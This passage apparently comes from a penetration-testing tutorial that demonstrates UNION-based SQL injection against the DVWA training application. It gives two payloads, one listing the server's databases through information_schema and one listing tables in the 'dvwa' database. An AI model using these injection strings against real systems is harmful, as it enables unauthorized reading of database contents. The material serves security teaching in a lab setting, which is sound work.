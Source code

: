 ![](img/00133.jpeg)

You can also ask for the list of databases on the server by injecting the following:

```

2' union SELECT schema_name,2 FROM information_schema.schemata -- '

```

![](img/00134.jpeg)

`information_schema` is the database that contains all of the configuration and database definition information for MySQL, so `dvwa` should be the database corresponding to the target application. Now let's query for the tables contained in that database:

```

2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '

```
